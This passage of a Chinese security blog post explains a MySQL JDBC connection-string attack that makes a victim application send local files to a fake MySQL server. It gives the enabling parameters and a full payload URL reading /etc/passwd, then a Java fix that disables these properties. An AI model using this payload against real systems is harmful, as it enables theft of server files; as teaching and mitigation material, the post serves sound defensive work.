 **其他连接参数**  
```
文件读取的参数
allowLoadLocalInfileInPath=/ 设置读的目录为根目录，这样所有的目录文件都可以读取
allowLoadLocalInfile=true 
allowUrlInLocalInfile=true 这两个参数类似

设置包大小参数
maxAllowedPacket=655360

完整payload可以为：
jdbc:mysql://ip:port/test?user=fileread_/etc/passwd&allowLoadLocalInfile=true&allowUrlInLocalInfile=true&allowLoadLocalInfileInPath=/&maxAllowedPacket=655360
```  
  
**查看假mysql服务器是否读取到文件**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apmYTPAKhlWuibeV8HFQCmteTib84MgLiaVbaKJ5ryu5mmt5HTf24OiawXw6SFwuKoxu9TicZFpOCuiaYHAyPGvNzHaw/640?wx_fmt=png&from=appmsg "null")  
  
读取成功的文件会存在fake_mysql工具的同一路径下的fake-server-files目录中, 进去找到最新的时间戳目录, 进入查看文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apmYTPAKhlWuibeV8HFQCmteTib84MgLiaVcMEzbTZBwfaJQY473tvUfA3MGqfjxUNvw0ITIzLU63QeqDmxu9l2fg/640?wx_fmt=png&from=appmsg "null")  
  
**成功读取文件；实战中大家肯定会遇到一些有限制的情况，大家可以自行再学习一些绕过的方式**  
  
**TIPS**:  
  
当然，实战中输入url的地方一般都长这样  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apmYTPAKhlWuibeV8HFQCmteTib84MgLiaVhny5icCZ2glz57KyXnCnmJIkpDze31HozicGaUcP2aiaZNnOrUOD21Fvg/640?wx_fmt=png&from=appmsg "null")  
## 修复方案  
  
原生的场景下可以使用预先定义的Properties将URL中的属性覆盖掉，就可以关闭本地文件读取以及URL读取了。  
  
**修复示例：**  
```
String driver = "com.mysql.jdbc.Driver";
String DB_URL = "jdbc:mysql://127.0.0.1:3306/test?user=test&maxAllowedPacket=655360&allowLoadLocalInfile=true";
Class.forName(driver);
Properties properties = new Properties();
properties.setProperty("allowLoadLocalInfile","false");
properties.setProperty("allowUrlInLocalInfile","false");
properties.setProperty("allowLoadLocalInfileInPath","");
Connection conn = DriverManager.getConnection(DB_URL,properties);
```  
  
  
**祝大家新年快乐，龙年嘎嘎挖洞**  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/apmYTPAKhlWuibeV8HFQCmteTib84MgLiaVPmM3jIjQ3218UMUEkSVJmjhZkLsXLrK7Tib3BCy3XVoytdiaQlJKge1w/640?wx_fmt=gif&from=appmsg "")  
  
    
  
   
**欢迎关注不懂安全⬇️**  
  
  
  
